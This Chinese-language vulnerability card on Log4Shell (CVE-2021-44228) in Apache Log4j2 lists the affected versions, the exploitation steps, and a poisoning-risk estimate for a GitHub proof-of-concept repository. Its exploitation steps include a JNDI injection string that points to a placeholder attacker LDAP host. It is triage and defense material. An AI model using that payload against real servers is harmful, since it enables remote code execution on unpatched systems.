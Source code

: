 ## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）

**利用条件:** 需要目标系统使用受影响版本的 Log4j2，且允许 JNDI 查找

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 漏洞存在于 Apache Log4j2 中，由于 JNDI 功能未对攻击者控制的 LDAP 和其他 JNDI 相关端点进行保护。攻击者可以通过控制日志消息或日志消息参数，在启用了消息查找替换的情况下，执行从 LDAP 服务器加载的任意代码。

**有效性：** 根据漏洞库信息、搜索引擎结果和提供的漏洞利用代码，该漏洞是有效的。 搜索引擎结果显示了许多关于此漏洞的分析、利用和缓解措施的讨论。提供的 Dockerfile 和构建脚本表明可以构建一个包含漏洞的应用程序。

**利用方式：**

1.  攻击者将恶意 JNDI 查找字符串注入到应用程序的日志消息中。例如，通过 HTTP 请求的 User-Agent 头部或 POST 请求的参数。
2.  Log4j2 尝试解析日志消息，遇到 JNDI 查找字符串，例如 `${jndi:ldap://attacker.com/evil}`。
3.  Log4j2 通过 JNDI 连接到攻击者控制的 LDAP 服务器 (attacker.com)。
4.  LDAP 服务器返回一个包含恶意 Java 类的 URL。
5.  Log4j2 下载并执行该恶意 Java 类，从而导致远程代码执行。

**投毒风险：**提供的代码库旨在创建一个包含 Log4Shell 漏洞的示例应用程序，用于安全测试。虽然代码本身直接显示了漏洞的存在，但仍然存在一些轻微的投毒风险，主要集中在以下几点：

*   **依赖项混淆:** 恶意修改`pom.xml`或其他构建脚本,引入包含恶意代码的其他依赖项。
*   **构建脚本后门:** 在`build.sh`或Dockerfile中添加额外的命令,在构建过程中植入后门。
*   **ClassLoader Manipulation:** 理论上，可以修改应用程序的类加载器，动态加载和执行恶意代码，但这需要对Java内部机制有深入的了解，并且更难检测。
    
    考虑到这些风险，我认为此代码库存在约10%的投毒风险，因为即使是示例代码也可能被用于传播恶意负载。

**项目地址:** [srcporter/CVE-2021-44228](https://github.com/srcporter/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)